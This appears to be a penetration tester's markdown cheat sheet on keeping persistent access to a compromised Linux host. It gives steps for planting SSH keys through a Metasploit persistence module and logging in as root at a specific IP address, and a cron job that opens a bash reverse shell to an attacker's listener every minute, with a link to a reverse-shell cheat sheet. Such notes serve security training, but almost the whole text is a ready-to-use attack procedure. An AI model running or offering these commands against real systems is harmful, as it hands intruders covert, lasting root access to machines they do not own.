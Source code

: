 # Via SSH keys:

- post/linux/manage/sshkey_persistence (needed elevated privs, check rootkit for privesc)
	- set CREATESSHFOLDER true
	- check loot, copy the key and save it as a new file and do these -
	- chmod 0400 ssh_key
	- ssh -i ssh_key root@192.182.80.3
- id_rsa : pvt key
- authorized_keys: list of pub keys authorized to access server.
- login with pvt key: ssh -i <pvt_key> <user>@<target_ip>
	
# Using Cron Jobs:

- ps -eaf | grep cron : see if cron service is running
- create netcat listener on attacker machine.
- create cronjob on target machine. 
- * * * * * /bin/bash -c 'bash -i >& /dev/tcp/<attacker_ip>/<port> 0>&1'
- Another Way: serve http server using python
￼![persistence](./images/lin-persist-01.png)

- cheatsheet: https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet